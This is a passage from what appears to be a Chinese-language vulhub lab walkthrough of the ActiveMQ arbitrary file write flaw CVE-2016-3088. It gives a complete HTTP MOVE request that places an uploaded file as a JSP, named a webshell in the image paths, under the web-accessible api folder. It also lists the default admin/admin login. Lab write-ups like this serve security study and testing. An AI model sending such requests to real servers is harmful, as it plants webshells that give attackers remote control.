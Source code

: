 ![确认文件 test.txt 已经上传](./../../../../../images/vulhub/activemq/ActiveMQ%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2016-3088%EF%BC%89/%E5%86%99%E5%85%A5%20webshell/%E7%A1%AE%E8%AE%A4%E6%96%87%E4%BB%B6%20test.txt%20%E5%B7%B2%E7%BB%8F%E4%B8%8A%E4%BC%A0.png)

移动到 `web` 目录下的 `api` 文件夹（`/opt/activemq/webapps/api/test.jsp`）中

```http
MOVE /fileserver/test.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/test.jsp
Host: centos.local:8161
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Connection: close
Content-Length: 0


```

访问 `http://debian:8161/api/test.jsp` ，确认文件 `test.jsp` 已经上传

> 用户名：	admin
>
> 密码：		admin

![确认文件 test.jsp 已经上传](./../../../../../images/vulhub/activemq/ActiveMQ%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2016-3088%EF%BC%89/%E5%86%99%E5%85%A5%20webshell/%E7%A1%AE%E8%AE%A4%E6%96%87%E4%BB%B6%20test.jsp%20%E5%B7%B2%E7%BB%8F%E4%B8%8A%E4%BC%A0.png)
